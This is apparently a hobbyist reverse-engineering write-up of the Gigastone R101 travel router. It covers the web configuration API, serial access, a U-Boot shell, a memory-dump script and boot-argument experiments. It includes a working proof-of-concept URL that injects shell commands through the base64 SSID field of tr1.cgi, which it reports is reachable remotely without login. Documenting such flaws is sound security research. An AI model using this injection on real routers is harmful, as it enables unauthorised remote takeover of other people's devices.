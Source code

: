 # RE of Gigastone R101 Mini Wireless Router / Wireless Travel Router

The R101 is a cheap wireless router sold by Gigastone.
Gigastone is a electronics brand based in Taiwan.

[Amazon link1.](https://www.amazon.com/Gigastone-GS-TR1-R-Wireless-Travel-Router/dp/B01DR04V90)
[Amazon link2.](https://www.amazon.com/Gigastone-TR1-Wireless-Extension-Processor/dp/B0BVTYYDQH/)

![41-czovIRFL _AC_SX522_](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/36e0f064-4b5e-4bf8-bdb5-3b70db17efa8)

# Web interface

After logging in with the default credentials, I watched network traffic from dev tools while setting the SSID.
It seems the device uses `tr1.cgi?cgi=2` for configuration.
The device uses base64 to send the SSID.

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/4b1597ec-1484-4e59-98e0-f050da488c68)

This field has command injection, and we can use the new SSID as the commands output.

SSID is set to base64 of string `` `echo command injection` `` (`YGVjaG8gY29tbWFuZCBpbmplY3Rpb25gCg==`)
```
http://<ROUTER_IP>/cgi-bin/tr1.cgi?cgi=2&mode=0&ssid=YGVjaG8gY29tbWFuZCBpbmplY3Rpb25gCg==&ht=0&channel=0&dhcp=50&static=0&ip=0.0.0.0&subnet=0.0.0.0&gw=0.0.0.0&pppmode=0&pppusr=bnVsbA==&ppppwd=bnVsbA==&pwd=
```

This API seems to be hittable from a remote IP, when not logged in (even with default password changed).

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/4346f60e-8f03-4636-a46f-ae87b2d0490c)

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/b886fa58-2fd6-488c-8a4e-b212a7ff1b4d)

# Hardware/Serial

We can find Gigastones filing for R101 in the [FCC ID](https://fccid.io/PLE-TRR1011) database

Looking at internal photos from FCCID, it looks like there's a serial port in the corner opposite the power button.

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/433ee296-e97e-460f-9b0a-e1deccdd58d3)

Soldering to the board and watching for serial confirms this.
I used a "USB to TTL" adapter to get serial from USB, and Putty to act as my terminal.
Using a multimeter in continuity mode showed the leftmost pin was ground.

Watching boot with baud set to 115200
```
U-Boot 1.1.4-ga519b4f0-dirtyOct  9 201317:21:10

AP121 (ar9331) U-boot

DRAM:  16 MB
Flash Manuf Id 0x0, DeviceId0 0x0, DeviceId1 0x0
flash size 4194304, sector count = 64
Flash:  4 MB
Using default environment

In:    serial
Out:   serial
Err:   serial
Net:   ag7240_enet_initialize...
No valid address in Flash. Using fixed address
No valid address in Flash. Using fixed address
: cfg1 0x5 cfg2 0x7114
eth0: 00:03:7f:09:0b:ad
eth0 up
: cfg1 0xf cfg2 0x7214
eth1: 00:03:7f:09:0b:ad
athrs26_reg_init_lan
ATHRS26: resetting s26
ATHRS26: s26 reset done
eth1 up
eth0, eth1
Hit any key to stop autoboot:  0
## Booting image at 9f300000 ...
   Image Name:   Linux Kernel Image
   Created:      2014-02-26   4:14:51 UTC
   Image Type:   MIPS Linux Kernel Image (lzma compressed)
   Data Size:    905965 Bytes = 884.7 kB
   Load Address: 80002000
   Entry Point:  801ea0e0
   Verifying Checksum at 0x9f300040 ...OK
   Uncompressing Kernel Image ... OK

Starting kernel ▒ɩ
                  ▒▒▒▒▒Zk▒*▒3▒  ▒▒▒YW▒▒
```

Watching boot with baud set to 128000
```
`@@▒▒▒▒▒▒▒▒▒`▒▒▒▒▒▒▒▒`▒▒`p▒y▒s`ppdp@^nN▒▒
`@@▒▒▒▒▒▒▒▒▒▒▒▒▒`▒▒▒▒▒▒@▒▒▒▒▒@^nN@▒▒
▒▒▒▒▒▒▒▒@▒▒▒▒▒▒ ...

Booting AR9330(Hornet)...
```

Hitting a key during boot brings us to a UBOOT shell
```
TR1> help
reset   - Perform RESET of the CPU
?       - alias for 'help'
boot    - boot default, i.e., run 'bootcmd'
bootd   - boot default, i.e., run 'bootcmd'
bootm   - boot application image from memory
cp      - memory copy
dhcp    - invoke DHCP client to obtain IP/boot params
erase   - erase FLASH memory
help    - print online help
httpd   - start webserver
md      - memory display
mm      - memory modify (auto-incrementing)
mtest   - simple RAM test
mw      - memory write (fill)
nm      - memory modify (constant address)
ping    - send ICMP ECHO_REQUEST to network host
printenv- print environment variables
progmac - Set ethernet MAC addresses
reset   - Perform RESET of the CPU
run     - run commands in an environment variable
setenv  - set environment variables
tftpboot- boot image via network using TFTP protocol
version - print monitor version
TR1>
TR1> printenv
bootargs=console=ttyS0,115200 root=31:02 rootfstype=squashfs init=/sbin/init mtdparts=ar7240-nor0:256k(u-boot),64k(u-boot-env),2752k(rootfs),896k(uImage),64k(NVRAM),64k(ART)
bootcmd=bootm 0x9f300000
bootdelay=1
baudrate=115200
ethaddr=0x00:0xaa:0xbb:0xcc:0xdd:0xee
ipaddr=192.168.16.254
serverip=192.168.16.10
stdin=serial
stdout=serial
stderr=serial
ethact=eth0
nc=setenv stdin nc;setenv stdout nc;setenv stderr serial
serial=setenv stdin serial;setenv stdout serial;setenv stderr serial
ncip=192.168.16.10
```

From here we can dump memory with `md`, and convert it into raw binary. I personally like to use python, with a quick script like below.
```
#!/bin/python3

import sys

if len(sys.argv) != 2:
    print("GIVE ME FILE NOW")
    sys.exit(1)

with open(sys.argv[1]) as open_file:
    with open("output.bin", "wb") as out_file:
        for line in open_file:
            line = line.strip()

            tokens = line.split(" ")
            byte_str = ''.join(tokens[1:6])
            print(byte_str)

            print(tokens)
            byte_o = bytes.fromhex(byte_str)
            out_file.write(byte_o)
```

From memory address `0x9f300000` to `0x9f3dd320` there seems to be a Linux Kernel Image.
```
output.bin: u-boot legacy uImage, Linux Kernel Image, Linux/MIPS, OS Kernel Image (lzma), 905965 bytes, Wed Feb 26 04:14:51 2014, Load Address: 0x80002000, Entry Point: 0x801EA0E0, Header CRC: 0x0F2D2E50, Data CRC: 0x85246A37
```

On first attempt, trying to get a linux shell from by setting the bootargs doesn't seem to work
```
setenv bootargs "console=115200 root=31:02 rootfstype=squashfs init=/bin/busybox mtdparts=ar7240-nor0:256k(u-boot),64k(u-boot-env),2752k(rootfs),896k(uImage),64k(NVRAM),64k(ART)"
setenv nc "setenv stdin serial;setenv stdout serial;setenv stderr serial"
```
